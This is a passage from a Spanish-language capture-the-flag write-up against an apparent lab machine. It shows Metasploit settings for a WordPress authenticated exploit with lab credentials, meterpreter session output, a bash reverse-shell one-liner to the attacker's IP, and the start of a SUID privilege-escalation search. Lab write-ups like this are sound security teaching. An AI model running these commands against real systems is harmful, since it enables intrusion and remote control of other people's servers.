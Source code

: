```
```
  
- Configuramos el exploit:

```bash
set PASSWORD cutiepie1
set USERNAME kwheel
set LHOST 10.18.101.123 
set LPORT 1234
set RHOSTS 10.10.95.98
```

- Ejecutamos el exploit:

```bash
run
```

```bash
[*] Started reverse TCP handler on 10.18.101.123:1234 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.231.24
[*] Meterpreter session 1 opened (10.18.101.123:1234 -> 10.10.231.24:37774) at 2023-02-15 12:00:25 -0500
[*] Attempting to clean up files...
```

- Obtenemos una sesión de meterpreter, podemos abrir la shell con "shell", y en mi caso me entablo una reverse shell para manipularla desde mi propio entorno:

```bash
bash -c "bash -i >& /dev/tcp/10.18.101.123/443 0>&1"
```

- Ganamos acceso al sistema como el usuario "www-data"  


# ESCALANDO PRIVILEGIOS:  

- Buscamos permisos SUID:

```bash
$find / -perm -4000 2>/dev/null | grep -v "snap"
```

- Encontramos un archivo sospechoso. 

```bash
$/usr/sbin/checker
```

- Lo analizamos:
